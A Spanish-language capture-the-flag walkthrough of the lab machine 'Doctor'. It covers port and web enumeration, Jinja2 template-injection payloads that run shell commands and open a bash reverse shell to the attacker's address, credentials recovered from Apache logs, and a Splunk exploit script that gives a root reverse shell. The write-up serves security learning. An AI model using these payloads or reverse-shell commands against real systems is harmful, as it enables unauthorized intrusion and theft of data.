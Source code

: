 10.10.10.209
------------
1. Enumeracion

Puertos abiertos (script de bash): 22(ssh), 80(http), 8089(http)

El escaneo de nmap reporta lo siguiente:
```console
└─$ nmap -T5 10.10.10.209 -p22,80,8089 -sCV
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| http-robots.txt: 1 disallowed entry
```
Ya nos dicen que hay un robots txt que mirar.

```console
└─$ whatweb http://10.10.10.209  
http://10.10.10.209 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@doctors.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.209], JQuery[3.3.1], Script, Title[Doctor]
└─$ whatweb http://10.10.10.209:8089
ERROR Opening: http://10.10.10.209:8089 - Connection reset by peer
└─$ whatweb https://doctors.htb:8089   # Por https si
https://doctors.htb:8089 [200 OK] Country[RESERVED][ZZ], HTTPServer[Splunkd], IP[10.10.10.209], Title[splunkd], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN]
```
El email es info@doctors.htb, eso indica el titulo de la web al que poner en el etc/hosts,


Enumeracion web:
``console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.209/FUZZ
000000536:   301        9 L      28 W       310 Ch      "css"                                                
000000939:   301        9 L      28 W       309 Ch      "js"                                                 
000000002:   301        9 L      28 W       313 Ch      "images"                                             
000002757:   301        9 L      28 W       312 Ch      "fonts" 
000095510:   403        9 L      28 W       277 Ch      "server-status"
```
Nada interesante, vamos a ver el splunkd

```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://10.10.10.209:8089/FUZZ
000000068:   401        6 L      9 W        130 Ch      "services"                                           
000000998:   200        36 L     533 W      2178 Ch     "v2"                                                 
000002223:   200        36 L     533 W      2178 Ch     "v1"                                                 
000003349:   200        36 L     533 W      2178 Ch     "v3"                                                 
000005951:   200        36 L     533 W      2178 Ch     "v4"                                                 
000006750:   200        36 L     533 W      2178 Ch     "v5"                                                 
000007451:   200        36 L     533 W      2178 Ch     "v6"                                                 
000010676:   200        36 L     533 W      2178 Ch     "v7"                                                 
000020954:   200        36 L     533 W      2178 Ch     "v10"
```
Son todo rutas *vnumero* (suelen existir en las apis, ya investigare), todas devuelven 36 lineas asi que en 
wfuu oculto respuestas de ese tamaño con el parametro ```--hl=36``` pero ahi no encuentro nada. Recuerdo que 
habia un robots.txt en el nmap, existe pero no pone nada interesante.

WEB puerto 80
--------------

Las rutas de la pagina principal no conducen a nada, (no son funcionales), lo interesante que sacar es nombres
"Dr. Jade Guzman", "Dr. Hannah Ford" y "Dr. James Wilson", que puede que sean usuarios del sistema.

Si en vez de la ip pongo http://doctors.htb me sale una pagina complemtamente diferente:

```http://doctors.htb/login?next=%2F```

```console
http://doctors.htb/login?next=%2F [200 OK] Bootstrap[4.0.0], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/3.8.2], IP[10.10.10.209], JQuery, PasswordField[password], Python[3.8.2], Script, Title[Doctor Secure Messaging - Login], Werkzeug[1.0.1]
```

```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://doctors.htb/FUZZ
000000051:   200        100 L    238 W      4493 Ch     "register"
000000049:   200        5 L      8 W        101 Ch      "archive"
000000335:   302        3 L      24 W       251 Ch      "account"
000000039:   200        94 L     228 W      4204 Ch     "login"
000000024:   302        3 L      24 W       245 Ch      "home"
000001211:   302        3 L      24 W       217 Ch      "logout"
```

Me he registrado con un nombre que incluye una comprobacion de STTI (si al ver el nombre pone cucuxii49 es 
vulnerable) > usaurio "cucuxii{{9*9}}" mail "cucuxii{{9*9}}@mail.com", contraseña "cucuxii123" pero por ahora no.
La cuenta es temporal segun esto, 20 minutos. 
Tengo una cookie de sesion > ".eJwljktqBDEMBe_idRbWz5LmMoMtySQEEuieWYXcfZqEWr1aPOqn3fdR53u7PY5nvbX7R7Zbm7I7SG615bRoW-nCRWuWCYQl18iYjJYOIuAEqhG5eHOhcg-AQKGBw9NEE9BqxB8StbsXI4ISh80c7DlkrujmNDuTQ7tCnmcd_zV4zTiPfX98f9bXJYYieteK4aTLsboFW10vqmTQoaTzImq_L9VKPeU.Y0fGCg.WNMwEmuC8pvT3TGVpBMmNQgIlAw"

La decodifique en base 64 pero no son mas que bytes inutiles.

La web me deja escribir un mensaje, pongo otro STTI ({{9*9}}) pero tampoco.

Arriba pone ```http://doctors.htb/home?page=1``` pero tras varios intentos no parece ser vulnerable a LFI.

La ruta /archive parece no tener nada, pero si vemos el codigo fuente sale un xml
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>Archive</title>
<item><title>81</title></item>
</channel>	
```
Ese 81 de ahi que es? Pued nada mas ni nada menos que el resultado del STTI de antes que pusimos en New Message
```{{9*9}}```

Si pongo en mensaje (para luego ver en el archive este)
```{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}```
Me sale blog y blog.sh (o sea el output del comando):
```{{config.__class__.__init__.__globals__['os'].popen('cat ~/.ssh/id_rsa').read()}}``` nada
```{{config.__class__.__init__.__globals__['os'].popen('ping -c 1 10.10.14.5').read()}}``` 
Me llega la traza ```sudo tcpdump -i tun0 icmp -n``` asi que tenemos ejecucion remota de comandos.

Reverse shell:
```{{config.__class__.__init__.__globals__['os'].popen("bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'").read()}}```
```console
└─$ sudo nc -nlvp 443
web@doctor:~$ whoami
web
```
Tras una enumeracion sin encontrar capabilities ni nada del estilo di con que el usuario es del grupo adm
asi que puede leer los logs.
```console
web@doctor:/home$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
web@doctor:/var/log$ grep -rIE "password" 2>/dev/null
apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```

Con esas creds "shaun:Guitar123" te puedes conectar a la web dle puerto 8089. Como hay demasiadas rutas, puse
pentesting splunkd en Hacktricks y acabe en esta [pagina](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/splunk-lpe-and-persistence)
Ahi hablaban del script PySplunkWhisperer2 que me baje despues de guithub
```
└─$ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --user shaun --password Guitar123 --lhost 10.10.14.5  --payload "whoami | nc 10.10.14.5 444"
└─$ sudo nc -nlvp 444 
root
└─$ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --user shaun --password Guitar123 --lhost 10.10.14.5  --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.5/444 0>&1'"
root@doctor:/# whoami
root
```






